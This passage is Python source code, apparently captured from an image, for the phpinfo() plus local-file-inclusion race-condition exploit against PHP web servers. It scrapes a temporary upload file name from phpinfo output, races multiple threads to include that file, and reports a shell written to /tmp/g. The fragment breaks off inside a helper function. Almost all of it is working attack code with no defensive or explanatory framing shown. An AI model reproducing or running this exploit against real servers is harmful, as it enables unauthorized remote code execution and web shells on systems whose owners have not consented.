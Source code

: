```

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
```